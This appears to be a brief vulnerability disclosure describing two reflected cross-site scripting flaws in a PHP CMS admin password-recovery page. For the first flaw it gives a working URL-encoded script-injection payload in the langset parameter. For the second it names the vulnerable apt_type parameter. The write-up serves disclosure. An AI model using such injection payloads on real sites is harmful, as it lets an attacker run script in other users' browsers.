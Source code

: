 ## XSS1 
Visit `http://127.0.0.1//m/admin/index.php?a=dogetpassword&anyid=&c=index&lang=cn&langset=1%27%3E%3Cscript%3Ealert(1)%3C/script%3E&n=getpassword`, the parameter langset is unsatified which result a pop up.
![](img/m1.jpg)
![](img/m2.jpg)  

## XSS2
Visit `http://192.168.6.232/m/admin/index.php?a=dogetpassword&anyid=&c=index&lang=cn&langset=&n=getpassword` and post the payload in apt_type parameter
![](img/m22.jpg)  
then the web page will pop a window
![](img/m11.jpg)


